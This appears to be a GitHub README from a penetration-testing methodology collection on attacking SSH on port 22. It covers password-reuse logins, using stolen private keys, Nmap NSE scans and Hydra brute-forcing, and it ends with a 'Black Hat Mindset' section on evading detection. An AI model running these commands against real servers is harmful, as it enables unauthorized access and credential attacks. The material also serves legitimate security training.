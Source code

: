 # Basic Methodology - Port 22 (SSH)

This README explores exploiting the Secure Shell (SSH) service on port 22, focusing on password reuse, private key logins, vulnerability scanning with Nmap NSE scripts, and brute-force attacks to gain unauthorized access.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Password Reuse](#password-reuse)
- [SSH Private Key Login](#ssh-private-key-login)
- [Nmap NSE Scripts](#nmap-nse-scripts)
- [Brute-Force Attacks](#brute-force-attacks)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

SSH on port 22 is a widely used protocol for secure remote access, but it can be a target for attackers if credentials are weak or private keys are exposed. This guide covers attempting logins with reused passwords, using stolen private keys, scanning for vulnerabilities, and brute-forcing credentials to compromise SSH servers.

## Setup and Prerequisites

- **Environment**: Linux host with network access to the target SSH server.
- **Tools**: Install `ssh` (e.g., `apt install openssh-client`), `nmap`, `hydra`, and ensure `chmod` is available.
- **Wordlists**: Prepare a password file (e.g., `password-file.txt`) or use `/usr/share/wordlists/rockyou.txt`.
- **IP Address**: Identify the target IP address (e.g., `<IP address>`).
- **Private Key**: Have a private key file (e.g., `private-key.txt`) if attempting key-based login.

## Password Reuse

Attempt SSH login using potentially reused passwords.

```bash
ssh <username>@<IP address>    # Connects to the SSH server at <IP address> as <username>. Enter a password when prompted (e.g., try admin, password, or other common credentials) (Linux).
```

Example:
```bash
ssh root@<IP address>    # Attempts to log in as root with a guessed password.
```

## SSH Private Key Login

Use a stolen or compromised private key to authenticate.

```bash
chmod 600 private-key.txt    # Sets the correct permissions (read/write for owner only) on the private key file to meet SSH requirements (Linux).

ssh -i private-key.txt <username>@<IP address>    # Authenticates to the SSH server using the private key file for <username> (Linux).
```

Example:
```bash
chmod 600 id_rsa
ssh -i id_rsa user@<IP address>    # Logs in as user with the id_rsa key.
```

## Nmap NSE Scripts

Scan for SSH vulnerabilities using Nmap's scripting engine.

```bash
ls -la /usr/share/nmap/scripts | grep "ssh"    # Lists SSH-related NSE scripts in the Nmap scripts directory (e.g., ssh-vuln-cve2018-15473.nse, ssh-brute.nse) to identify available options (Linux).
```

Example usage:
```bash
nmap -p 22 --script ssh-vuln* <IP address>    # Scans for known SSH vulnerabilities.
nmap -p 22 --script ssh-brute <IP address>    # Attempts to brute-force SSH credentials.
```

## Brute-Force Attacks

Guess SSH credentials using automated tools.

```bash
hydra -l root -P password-file.txt <IP address> ssh    # Uses hydra to brute-force the SSH server at <IP address> with username root and passwords from password-file.txt (Linux).
```

Alternative:
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt <IP address> ssh -t 4    # Limits to 4 threads to avoid triggering rate-limiting or account lockouts (Linux).
```

## Black Hat Mindset

- **Target Weak Credentials**: Test for reused or default passwords (e.g., `root:root`) to gain quick access.
- **Leverage Stolen Keys**: Use compromised private keys from phishing or data leaks to bypass password authentication.
- **Scan for Exploits**: Use Nmap NSE scripts to find unpatched vulnerabilities in the SSH service.
- **Stay Stealthy**: Limit brute-force attempts to avoid detection by rate-limiting or intrusion detection systems.

## Resources

- SSH Protocol
- Nmap NSE Documentation
- Hydra Manual
- SSH Security Guide

